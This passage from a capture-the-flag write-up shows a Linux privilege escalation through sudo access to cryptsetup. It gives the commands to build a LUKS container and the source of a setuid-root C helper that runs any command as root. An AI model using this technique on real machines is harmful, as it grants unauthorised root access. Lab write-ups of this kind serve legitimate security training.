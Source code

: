 Found a way to exploit `cryptsetup` as sudo from to [*xct’s* notes](https://notes.vulndev.io/wiki/redteam/privilege-escalation/linux/gtfo-binaries), ignoring the crypto challenge (a year ago I didn’t know what a port was, let me focus on the important things first).

<img src="/assets/img/forwardslash/Untitled 15.png" alt="Untitled 15.png" style="width:800px;">

Created a LUKS container on our VM and mounted it. 

```bash
dd if=/dev/zero of=/tmp/vol bs=1M count=50
sudo /sbin/cryptsetup -vy luksFormat /tmp/vol
sudo /sbin/cryptsetup luksOpen /tmp/vol vol
sudo mkfs.ext4 /dev/mapper/vol
sudo mount /dev/mapper/vol /mnt
cd /mnt
```

Note: I reduced the size because it was taking an eternity to copy to the box.

This C payload will run the given command as root (UID 0).

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char ** const argv) { 
        setuid(0);
        setgid(0);
        system(argv[1]);
}
```

Compiled it, gave the right perms, and confirmed that it works as intended.

```bash
sudo gcc evil.c -o evil.o -static

sudo chmod 4755 evil.o

whoami                                                                                                       
kali

./evil.o whoami
root
```
